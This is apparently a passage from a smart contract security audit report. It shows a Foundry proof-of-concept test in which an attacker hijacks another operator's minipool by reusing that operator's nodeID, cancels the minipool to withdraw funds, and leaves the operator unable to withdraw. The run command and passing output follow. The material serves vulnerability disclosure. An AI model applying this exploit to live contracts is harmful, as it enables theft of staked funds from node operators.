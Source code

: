 ```

		// Update that staking has ended and funds are withdrawable
		minipoolMgr.recordStakingEnd{value: validationAmt + rewards}(nodeOpMp.nodeID, block.timestamp, 10 ether);
		minipoolMgr.recordStakingEnd{value: validationAmt + rewards}(hackerMp.nodeID, block.timestamp, 10 ether);
		vm.stopPrank();

		/// NOW STATE: WITHDRAWABLE ///

		vm.startPrank(hacker);
		// Hacker creates a minipool using nodeID of nodeOp
		// Hacker is now the owner of nodeOp minipool
		minipoolMgr.createMinipool{value: depositAmt}(nodeOpMp.nodeID, duration, 0.02 ether, avaxAssignmentRequest);

		// Hacker immediatally cancels the nodeOp minipool, validate 1000 AVAX returned
		minipoolMgr.cancelMinipool(nodeOpMp.nodeID);
		assertEq(hacker.balance, depositAmt);
		// Hacker withdraws his own minipool and receives 1000 AVAX + rewards
		minipoolMgr.withdrawMinipoolFunds(hackerMp.nodeID);
		assertEq(hacker.balance, depositAmt + depositAmt + expectedRewards);

		// Hacker withdraws his staked ggp
		staking.withdrawGGP(ggpStakeAmt);
		assertEq(ggp.balanceOf(hacker), ggpStakeAmt);
		vm.stopPrank();

		vm.startPrank(nodeOp);
		// NodeOp tries to withdraw his funds from the minipool
		// Transaction reverts because NodeOp is not the owner anymore
		vm.expectRevert(MinipoolManager.OnlyOwner.selector);
		minipoolMgr.withdrawMinipoolFunds(nodeOpMp.nodeID);

		// NodeOp can still release his staked gpp
		staking.withdrawGGP(ggpStakeAmt);
		assertEq(ggp.balanceOf(nodeOp), ggpStakeAmt);
		vm.stopPrank();
	}
```

To run the POC, execute:
```
forge test -m testHijackMinipool -v
```

Expected output:
```
Running 1 test for test/unit/MinipoolManager.t.sol:MinipoolManagerTest
[PASS] testHijackMinipool() (gas: 2346280)
Test result: ok. 1 passed; 0 failed; finished in 9.63s
```
## Tools Used
